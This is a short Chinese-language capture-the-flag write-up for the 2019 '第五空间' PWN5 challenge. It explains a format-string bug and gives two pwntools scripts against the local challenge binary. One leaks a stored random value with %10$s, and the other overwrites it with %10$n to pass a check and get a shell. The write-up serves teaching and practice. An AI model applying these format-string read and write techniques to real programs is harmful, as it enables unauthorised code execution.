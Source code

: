 ```yaml
---
title: "[第五空间 2019 决赛] PWN5"
description: ""
date: 2023-04-06T19:15:01+08:00
lastmod: 2023-04-06T19:15:01+08:00
draft: false
images: []
type: docs
weight: 997
toc: true
---
```


## 0x01 分析

![2efa3183fece07e1c3c5c664e19979b7](images/2efa3183fece07e1c3c5c664e19979b7.png)  

思路很清晰，利用格式化任意写可以覆盖随机值为指定值，然后就可以输入指定值了

或者也可以读取这个随机值（通过%s读取，只要里面没有 `\x00` 即可）

![6e051091d139282fa7272a1dc6185316](images/6e051091d139282fa7272a1dc6185316.png)  

跟在随机值存储位置后面的就是随机值

## 0x02 Exploit

```python
from pwn import*
context.log_level = 'debug'
o = process("./pwn5")
payload = p32(0x804C044) + "%10$s"
o.sendline(payload)
o.recvuntil(p32(0x804C044))
res = u32(o.recv(4))
log.info(hex(res))
o.sendline(str(res).encode())
o.interactive()

```

![3905bb49138c99c550d4b29a7b6cca92](images/3905bb49138c99c550d4b29a7b6cca92.png)  

覆盖的脚本为

```python
from pwn import*
o = process("./pwn5")
payload = p32(0x804C044) + "%10$n"
o.sendline(payload)
o.sendline(b'4')
o.interactive()
```
